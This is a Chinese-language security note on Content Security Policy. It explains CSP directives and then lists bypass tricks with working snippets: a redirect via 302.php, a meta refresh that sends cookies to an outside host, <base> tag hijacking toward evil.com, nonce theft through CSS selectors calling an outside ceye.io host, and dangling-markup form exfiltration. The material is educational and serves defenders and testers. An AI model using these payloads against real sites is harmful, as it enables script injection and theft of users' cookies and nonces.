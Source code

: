 categories:
- web
title: bypass_csp
---
# bypass csp

内容安全策略  ([CSP](https://developer.mozilla.org/zh-CN/docs/Glossary/CSP)) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。 

## csp语法

CSP的特点就是他是在浏览器层面做的防护，是和同源策略同一级别，除非浏览器本身出现漏洞，否则不可能从机制上绕过。

CSP只允许被认可的JS块、JS文件、CSS等解析，只允许向指定的域发起请求。

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy

[`default-src`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) :在其他资源类型没有符合自己的策略时应用该策略(有关完整列表查看[`default-src`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) )

![image773](https://images.seebug.org/content/images/2017/10/7b7e1d4c-9d9a-4bd0-ae6d-f266871fa300.png-w331s)

![image878](https://images.seebug.org/content/images/2017/10/c5a45eca-7e0c-4ebf-8143-712e4594f2fd.png-w331s)



###  strict-dynamic

` script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none';  `

script-src 中 strict-dynamic 中的作用:

- 丢弃白名单
- 允许执行js生成的js代码，例如：document.createElement('script') 
- 使  nonce-only CSPs  可以工作

![image1216](https://raw.githubusercontent.com/Explorersss/photo/master/20200520164256.png)



### 一些注意点

`https://cdn.com/*`只能匹配`https://cdn.com/*`



## bypass

### csp策略不完全导致的绕过





### 利用302跳转

` Content-Security-Policy: default-src 'self '; script-src http://127.0.0.1/static/`

如果可信域内存在一个可控的重定向文件，那么CSP的目录限制就可以被绕过。 

假设static目录下存在一个302文件

```
Static/302.php

<?php Header("location: ".$_GET['url'])?>
```

像刚才一样，上传一个test.jpg 然后通过302.php跳转到upload目录加载js就可以成功执行

```
<script src="static/302.php?url=upload/test.jpg">
```



### 绕过域限制的一些tricks

`Content-Security-Policy: default-src 'self'; script-src 'self'`

```html
<link rel="prefetch" href="http://lorexxar.cn"> (H5预加载)(only chrome)
<link rel="dns-prefetch" href="http://lorexxar.cn"> （DNS预加载）
<meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
```



### 利用可信域的资源绕过

很多网站都会将google,baidu......添加到可信域里面，而如果里面存在可控的输出我们便可以绕过csp

常用可控jsonp: https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/jsonp.js#L32-L180 



### bypass nonce

#### 利用`<base>`标签

Specify a default URL and a default target for all links on a page:

```html
<head>
  <base href="https://www.evil.com/" target="_blank">
</head>

<body>
<img src="images/stickman.gif" width="24" height="39" alt="Stickman"><!-- load  https://www.evil.com/images/stickman.gif -->
<a href="tags/tag_base.asp">HTML base Tag</a>
</body><!-- point to https://www.evil.com/tags/tag_base.asp -->
```

因此我们可以设置个`<base>`标签，将相对路径导向恶意的网站

```html
<!-- XSS -->
<base href="https://evil.com/">
<!-- End XSS -->
…
<script src="foo/bar.js" nonce="r4nd0m"></script>
```



https://evil.com/foo/bar.js

```
alert(0000);
```

成功执行



防御方式：

在csp中添加：base-uri 'none' 或 base-uri 'self'

#### 利用chrome bug 来修改script src的值

```html
<!-- XSS -->
<svg><set href="victim" attributeName="href" to="data:,alert(1)" />
<!-- End XSS -->
…
<script id="victim" src="foo.js" nonce="r4nd0m"></script>
```

SVG中的set标签可以修改其他标签的属性值

该漏洞在chrome58中修复

#### steal nonce

#####  via CSS selectors



```html
<!-- XSS -->
<style>
script { display: block }
script[nonce^="a"]:after { content: url("record?a") }
script[nonce^="b"]:after { content: url("record?b") }
</style>
<!-- End XSS -->
<script src="foo/bar.js" nonce="r4nd0m"></script>
```

可以联合其他标签来发出请求，如`<a>` ...

```html
<style>script[nonce^="0"]~a{background:url("http://y5pwcd.ceye.io/success")}</style>
```

相关的css 语法

 https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_Selectors 

 https://developer.mozilla.org/zh-CN/docs/Web/CSS/Attribute_selectors 





#####  via dangling markup attack

破坏原有的结构，将script标签变成文本，诱使用户点击

```html
<!-- XSS --> <form method="post" action="//evil.com/form">
<input type="submit" value="click"><textarea name="nonce">
<!-- End XSS -->
<script src="foo/bar.js" nonce="r4nd0m"></script>
```



###  JS framework-based CSP Bypasses

利用低版本JQuery等js框架漏洞来绕过csp



## 绕过实例





## 一些工具

检查csp: https://csp-evaluator.withgoogle.com/ 

常用可控jsonp: https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/jsonp.js#L32-L180 

[csp mitigator](https://chrome.google.com/webstore/detail/csp-mitigator/gijlobangojajlbodabkpjpheeeokhfa) :一个csp调试工具





## 参考文章

 [Spagnuolo_Hack In Bo - So we broke all CSPs... You won't guess what happened next!](https://www.hackinbo.it/slides/1494231338_Spagnuolo_Hack In Bo - So we broke all CSPs... You won't guess what happened next!.pdf) 

[前端防御从入门到弃坑--CSP变迁](https://paper.seebug.org/423/)







## 收藏





Bypassing CSP script nonces via the browser cache： http://sebastian-lekies.de/csp/attacker.php

 https://hurricane618.me/2018/06/30/csp-bypass-summary/ 



 https://www.netsparker.com/blog/web-security/private-data-stolen-exploiting-css-injection/ 

 https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense 

 https://storage.googleapis.com/pub-tools-public-publication-data/pdf/45542.pdf 